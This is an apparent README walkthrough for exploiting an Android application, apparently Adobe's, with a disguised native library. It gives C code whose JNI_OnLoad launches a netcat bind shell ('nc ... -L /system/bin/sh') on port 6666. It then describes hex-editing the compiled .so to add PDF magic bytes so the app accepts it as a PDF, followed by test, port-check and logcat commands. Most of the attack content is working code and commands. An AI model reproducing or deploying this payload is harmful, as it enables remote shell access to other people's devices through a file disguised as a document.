

## Notes

The .so file must be prefixed with `lib` and have the extension `.so` in order to be loaded by the JVM. For example, `libhello.so` is loaded by `System.loadLibrary("hello")`.

## How it works?

### Step 1.

First create the code that will be compiled into the library code. We have the code stored in code.c.

```C
#include <jni.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

JNIEXPORT jint JNI_OnLoad(JavaVM* vm, void* reserved) {

    if (fork() == 0) {
        system("toybox nc -p 6666 -L /system/bin/sh -l");
    }
    JNIEnv* env;
    if ((*vm)->GetEnv(vm, (void**)&env, JNI_VERSION_1_6) != JNI_OK) {
        return JNI_ERR;
    }
    return JNI_VERSION_1_6;
}
```

### Step 2.

Compile C code into shared library binary code. This is the file we will send to Adobe in attempt to exploit it.

```bash
gcc -shared -fPIC -I/usr/lib/jvm/default-java/include -I/usr/lib/jvm/default-java/include/linux -o libs/libopen_cv.so code.c
```

Edit the binary of the file to add the magic PDF bytes so Adobe will accept it as a PDF file.

```bash
hexedit libopen_cv.so
```



### Step 3.

For testing we have this Java code that will load and thus run the .so code in a sandbox.

```Java
public class Test {
    static {
        System.loadLibrary("opencv_info");
    }
    public static native void JNI_OnLoad();

    public static void main(String[] args) {
        System.out.print("RUNNING");
    }
}
```

### Step 4.

We compiled the Java code using the following command.

```bash
javac Test.java
```

### Step 5.

Run the Java program which will call the .so and thus open a port on 6666 on the device.

```bash
java -Djava.library.path=/home/kali/Desktop/code/libs Test
```

### Step 6.

To check if successful (besides an error log), we used a netstat command. If you see the port 6666 is open that means the shared library file was executed and thus you can run a reverse shell.

```bash
netstat -tuln
```

### Step 7.

To see which process is using the port 6666, so we can reset if needed.

```bash
lsof -i :6666
```

Kill the process to restart.

```bash
kill [PID]
```

```bash
cd D:\Users\Admin\platform-tools_r34.0.5-windows\platform-tools
.\adb -s 23c00d78cd0c7ece logcat
```
